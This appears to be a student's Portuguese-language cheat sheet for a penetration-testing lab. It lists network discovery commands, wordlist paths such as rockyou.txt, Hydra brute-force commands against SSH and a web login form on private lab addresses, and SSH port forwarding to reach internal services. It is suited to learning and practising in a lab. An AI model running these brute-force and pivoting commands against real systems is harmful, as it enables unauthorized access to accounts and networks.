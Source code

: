 # COMANDOS E PASSOS IMPORTANTES

- verificar ip

  `ip -br -c a`

- verificar dispositivos conectados na mesma rede

  `netdiscover -i eth0 -P -r 192.168.56.0/24`

- verificar portas abertas

  `netstat -nltp`

  ## Caminhos de pastas importantes

  - WORDLISTS

  /usr/share/wordlists/metasploit

  http_default_user.txt

  http_default_pass.txt

  rockyou.txt

  ## Possivel passo a passo

  Entrar no servidor:

  por meio de usuário dado e ataque de força bruta

  - `hydra -L user.txt -P pass.txt ssh://192.168.10.10`

  ataque de força bruta sem nada

  - `hydra -L pass_user_injection.txt -P pass_user_injections.txt 192.168.100.20 http-post-form "/login.php:login=ÛSER^&senha=^PASS^:F=incorreto" -o found2.txt -f`

  Depois de descobrir fazer tunelamento ssh

  - `ssh -p 2222 aluno@192.168.100.20`

  Verificar serviços e portas abertas

  - serviço -> colocar ip do servidor no navegador
 
  - portas -> `netstat - nltp`

  - inspecionar página para ver se não encontra nada
 
  Se tiver outra porta aberta sera necessário fazer redirecionamento de portas local, então sair do servidor e:

  - `ssh -L portaLocal:localhost:portaRemota aluno@192.168.100.20`
 
    Depois de acessar a proxima porta tentar acessar o outro serviço colocando no navegador:

  - `localhost:portaRemota`

  OBS:
  - Tomar cuidado para que o proxy não esteja ligado
  - Tomar cuidado para não usar a mesma porta de um serviço ja usado
  
